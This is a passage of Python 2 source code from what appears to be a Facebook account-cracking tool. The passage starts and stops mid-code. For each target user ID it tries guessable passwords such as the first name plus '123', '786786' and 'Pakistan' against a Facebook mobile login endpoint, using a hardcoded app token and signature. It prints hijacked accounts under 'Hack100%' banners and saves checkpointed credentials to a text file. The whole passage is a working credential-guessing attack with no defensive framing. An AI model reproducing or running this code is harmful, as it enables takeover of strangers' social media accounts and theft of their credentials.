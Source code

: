 								print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass3 + '\n'							
								oks.append(user+pass3)							
							else:								
								if 'www.facebook.com' in q["error_msg"]:							
									print '\x1b[1;95m[  ✖ ] \x1b[1;95mCeckpoint'						
									print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mNama \x1b[1;95m    : \x1b[1;95m' + b['name']						
									print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user						
									print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass3 + '\n'						
									cek = open("out/super_cp.txt", "a")						
									cek.write("ID:" +user+ " Pw:" +pass3+"\n")						
									cek.close()						
									cekpoint.append(user+pass3)						
								else:							
									pass4 = b['first_name']+'123'						
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")						
									q = json.load(data)						
									if 'access_token' in q:						
										print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'					
										print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mNama \x1b[1;91m    : \x1b[1;91m' + b['name']					
										print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user					
										print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass4 + '\n'					
										oks.append(user+pass4)					
									else:						
										if 'www.facebook.com' in q["error_msg"]:					
											print '\x1b[1;95m[  ✖ ] \x1b[1;95mCeckpoint'				
											print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mNama \x1b[1;95m    : \x1b[1;95m' + b['name']				
											print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user				
											print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass4 + '\n'				
											cek = open("out/super_cp.txt", "a")				
											cek.write("ID:" +user+ " Pw:" +pass4+"\n")				
											cek.close()				
											cekpoint.append(user+pass4)				
										else:					
															
											pass5 = '786786'				
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")				
											q = json.load(data)				
											if 'access_token' in q:				
												print '\x1b[1;91m[  ✓  ] \x1b[1;91mHack100%💉'			
												print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mNama \x1b[1;91m    : \x1b[1;91m' + b['name']			
												print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user			
												print '\x1b[1;91m[•⊱✿⊰•] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass5 + '\n'			
												oks.append(user+pass5)			
											else:				
												if 'www.facebook.com' in q["error_msg"]:			
													print '\x1b[1;95m[  ✖ ] \x1b[1;95mCeckpoint'		
													print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mNama \x1b[1;95m    : \x1b[1;95m' + b['name']		
													print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mID \x1b[1;95m      : \x1b[1;95m' + user		
													print '\x1b[1;95m[•⊱✿⊰•] \x1b[1;95mPassword \x1b[1;95m: \x1b[1;95m' + pass5 + '\n'		
													cek = open("out/super_cp.txt", "a")		
													cek.write("ID:" +user+ " Pw:" +pass5+"\n")		
													cek.close()		
													cekpoint.append(user+pass5)		
												else:			
													pass6 = 'Pakistan'		
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")		
													q = json.load(data)		
													if 'access_token' in q:		